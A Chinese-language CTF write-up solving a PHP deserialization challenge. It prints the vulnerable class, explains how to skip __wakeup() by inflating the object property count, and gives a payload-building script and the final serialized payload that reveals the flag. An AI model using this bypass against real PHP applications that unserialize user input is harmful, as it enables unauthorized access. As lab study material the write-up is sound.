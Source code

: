 ![image.png](https://cdn.nlark.com/yuque/0/2024/png/42994824/1715825611975-6637dd08-b9a3-4fb4-80e7-e16ee297db6b.png#averageHue=%23eaeae7&clientId=ube6ce20d-f138-4&from=paste&height=797&id=ua9256b2b&originHeight=1196&originWidth=1382&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=135891&status=done&style=none&taskId=u93b0d893-2182-403a-bb06-11893a23f5d&title=&width=921.3333333333334)
```php
<?php
header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{
  public $admin;
  public $passwd;

  public function __construct(){
    $this->admin ="user";
    $this->passwd = "123456";
  }

  public function __wakeup(){
    $this->passwd = sha1($this->passwd);
  }

  public function __destruct(){
    if($this->admin === "admin" && $this->passwd === "wllm"){
      include("flag.php");
      echo $flag;
    }else{
      echo $this->passwd;
      echo "No wake up";
    }
  }
}

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);

?>
```
## 分析
分析代码之后发现当admin = "admin"和passwd ="wllm"时就会输出flag
但有一个魔法方法：_wakeup():
> 当你使用serialize()函数将一个对象转换为字符串以便存储或传输时，该对象的所有公共属性（public）、保护属性（protected）和私有属性（private）都会被保存。但是，对象的某些状态或资源（如打开的数据库连接、文件句柄等）不会被保存。
> 然后，当你使用unserialize()函数将这个字符串转换回对象时，PHP会重新创建该对象并恢复其所有保存的属性值。但是，在恢复对象之前，PHP会检查该对象是否有一个__wakeup()方法。如果有，那么在恢复对象的属性之前，PHP会调用__wakeup()方法。

_wakeup()绕过方法：
>  __wakeup()函数漏洞原理：当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行


## 构造payload：
```php
<?php
class HaHaHa{
    public $admin = "admin";
    public $passwd = "wllm";
}
$bx = new HaHaHa();
echo serialize($bx);
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42994824/1715826142032-556c93b3-f35f-4ed1-8b3c-07b68e34bf9f.png#averageHue=%23699a65&clientId=ube6ce20d-f138-4&from=paste&height=273&id=u3120e399&originHeight=410&originWidth=1885&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=65833&status=done&style=none&taskId=u61d5986c-f2ab-4eba-b118-7b4374902ec&title=&width=1256.6666666666667)
当输入这个payload时，发现_wakeup方法执行了
所以此时修改payload来绕过方法
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42994824/1715826197813-c8984965-a82c-4b38-ae89-ff78a30bf01a.png#averageHue=%23eaeae7&clientId=ube6ce20d-f138-4&from=paste&height=850&id=u641c302e&originHeight=1275&originWidth=1565&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=156535&status=done&style=none&taskId=udf5205ad-3d73-46b1-9c39-8a7565a69d8&title=&width=1043.3333333333333)
> 修改后:
p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}


![image.png](https://cdn.nlark.com/yuque/0/2024/png/42994824/1715826342285-222a6d49-8e08-4014-b186-d33b37d9b4c0.png#averageHue=%23eaeae7&clientId=ube6ce20d-f138-4&from=paste&height=849&id=u95b5e438&originHeight=1274&originWidth=1288&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=155075&status=done&style=none&taskId=ue08a48f0-1145-4c99-aa95-ee89f7cc7ba&title=&width=858.6666666666666)
得到NSSCTF

